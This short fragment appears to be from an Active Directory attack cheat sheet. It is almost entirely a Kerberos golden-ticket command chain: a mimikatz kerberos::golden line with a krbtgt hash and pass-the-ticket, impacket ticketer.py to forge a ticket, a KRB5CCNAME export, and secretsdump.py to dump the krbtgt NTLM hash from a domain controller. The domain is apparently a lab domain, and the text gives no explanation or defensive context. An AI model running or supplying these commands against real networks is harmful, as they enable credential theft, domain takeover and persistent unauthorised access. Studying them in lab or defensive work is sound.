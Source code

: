 ![](img/goldenticket.png)


```none
/kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /krbtgt:0123456789abcdef0123456789abcdef /ptt

ticketer.py -nthash 0123456789abcdef0123456789abcdef -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local random_user

export KRB5CCNAME='/chemin/vers/random_user.ccache'

secretsdump.py -k DC-01.adsec.local -just-dc-ntlm -just-dc-user krbtgt

```
